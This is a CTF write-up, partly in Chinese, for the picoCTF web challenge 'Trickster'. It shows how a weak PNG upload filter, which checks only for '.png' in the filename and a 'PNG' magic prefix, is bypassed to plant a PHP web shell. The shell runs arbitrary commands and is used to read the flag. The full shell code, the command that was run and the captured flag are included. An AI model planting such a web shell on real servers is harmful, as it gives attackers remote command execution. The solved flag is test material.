

# Trickster

## 題目描述 (Description)

I found a web app that can help process images: PNG images only!

### 提示 (Hints)

(None)

## 解題思路 (Solution Walkthrough)

1.  **第一步**：進去網站以後看到可以上傳檔案，先隨便傳了一張圖片，卻找不到他最終會上傳到哪裡

2.  **第二步**：通靈一下發現 /robots.txt 裡面有東西，原來圖片是放在 /uploads/檔名，且上傳時他會檢查檔名以及 magic byte
   ```
   # robots.txt
   User-agent: *
   Disallow: /instructions.txt
   Disallow: /uploads/

   # instructions.txt
   Let's create a web app for PNG Images processing.
   It needs to:
   Allow users to upload PNG images
      look for ".png" extension in the submitted files
      make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
   after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
   ```

3.  **第三步**：看到這裡就知道這題應該是 webshell，於是做了一個 webshell，後來發現他只檢查檔名中是否含有 .png 而已，而不是檢查是否以 png 結尾
   ```php
   PNG<html>
   <body>
   <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
   <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
   <input type="SUBMIT" value="Execute">
   </form>
   <pre>
   <?php
      if(isset($_GET['cmd']))
      {
         system($_GET['cmd'] . ' 2>&1');
      }
   ?>
   </pre>
   </body>
   </html>
   ```

4.  **第四步**：上傳 webshell，接著就成功取得 flag 了
   
   ```
   cd ..;ls;cat HFQWKODGMIYTO.txt

   HFQWKODGMIYTO.txt
   index.php
   instructions.txt
   robots.txt
   uploads
   /* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17} */
   ```

## Flag

```text
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}
```